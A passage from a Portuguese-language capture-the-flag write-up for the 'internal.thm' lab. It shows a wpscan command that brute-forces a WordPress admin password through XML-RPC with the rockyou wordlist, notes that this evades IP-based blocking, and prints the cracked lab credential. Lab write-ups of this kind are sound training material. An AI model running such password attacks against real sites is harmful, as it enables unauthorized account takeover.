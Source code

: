 Isso tem dois impactos importantes:

- **Evita bloqueios por IP** que se baseiam em número de requisições;
- **É mais rápido**, pois agrupa muitas tentativas em um só pacote.

#### 2.1.3.3 Exemplo Prático do ataque

```
arthur-strelow@ubuntu-star:~$ wpscan --url http://internal.thm/blog/ --enumerate u --passwords /home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt --usernames admin --disable-tls-checks
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://internal.thm/blog/ [10.10.148.163]
[+] Started: Wed Jul  2 10:48:24 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
.
.
.
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - Username: admin, Password: my2boys
```

> [!Credenciais do "admin" do Wordpress]
> [SUCCESS] - Username: admin, Password: my2boys

E com isso, obtermos acesso ao painel administrativo do **Wordpress**.
